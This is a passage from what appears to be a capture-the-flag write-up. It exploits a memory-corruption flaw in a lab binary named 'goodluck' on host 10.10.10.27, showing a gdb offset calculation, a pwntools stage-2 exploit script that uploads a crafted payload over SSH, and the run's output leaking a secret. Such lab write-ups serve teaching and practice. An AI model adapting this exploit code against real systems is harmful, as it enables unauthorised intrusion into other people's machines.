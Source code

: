 ![](/img/image-20200826060321674.png)

Once I do that, the programs reference to `hey.admin`, EBX+0x78, now
points to the middle four bytes in `hey.user`. The first byte will be
overwritten with a 0 in the reading process, but the rest is some
non-zero value, and will pass the second test, and go to debug.

EBX just needs to be shifted 4 more bytes from what it was in stage 1,
to :



    gdb-peda$ p 0x80002ff8 - 4
    $4 = 0x80002ff4



I'll add stage 2 to the script:



    ## Stage 2 - Access Debug
    log.info(f'Writing Stage 2 exploit to {fn}')
    sshConn.upload_data(p32(int(secret, 16)) + b'AAAA' + p32(0x80002ff4), fn)
    goodluck.sendline("4")
    goodluck.recv(4096)
    goodluck.sendline(fn)
    goodluck.recv(4096)
    goodluck.sendline("3")
    print(goodluck.recv(4096).decode())



It prints out the start of `debug` and waits for a filename:



    root@kali# python3 rootpwn.py 
    [x] Connecting to 10.10.10.27 on port 22
    [+] Connecting to 10.10.10.27 on port 22: Done
    [*] xalvas@10.10.10.27:
        Distro    Ubuntu 16.04
        OS:       linux
        Arch:     i386
        Version:  4.4.0
        ASLR:     Disabled
        Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
    [x] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27
    [+] Starting remote process '/home/xalvas/app/goodluck' on 10.10.10.27: pid 8366
    [+] Found secret: 0x1019d3b
